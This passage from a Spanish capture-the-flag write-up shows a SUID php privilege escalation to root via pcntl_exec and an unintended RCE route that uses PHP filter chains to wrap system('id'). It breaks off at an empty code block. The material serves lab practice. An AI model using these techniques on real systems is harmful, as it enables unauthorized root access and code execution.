 Haciendo una pequeña busqueda en GFTOBins  encontraremos una forma de hacernos root ingresando esto:

```bash
sudo install -m =xs $(which php) .

CMD="/bin/sh"
./php -r "pcntl_exec('/bin/sh', ['-p']);"
```
Pero no es necesario, lo unico que debemos de ejecutar es 

```bash
/usr/bin/php7.0 -r "pcntl_exec('/bin/bash', ['-p']);"
```

Ya seremos root y podemos leer la flag

![](/assets/img/quick/7.png)

## Intrusion (via no intencionada)

Otra manera de poder conseguir RCE que posiblemente no sea intencionadas es haciendo uso de **filter chain**,  para realizarlo podemos hacer uso de este script que automatiza la creacion del payload usando php filters chains: [https://github.com/synacktiv/php_filter_chain_generator](https://github.com/synacktiv/php_filter_chain_generator)

Para el ejemplo generare el payload que haga uso de la funcion system para ejecutar el comando **id**

```ruby
python3 php_filter_chain_generator.py --chain '<?php system("id"); ?>'
```

Nos genera todo esto

```
```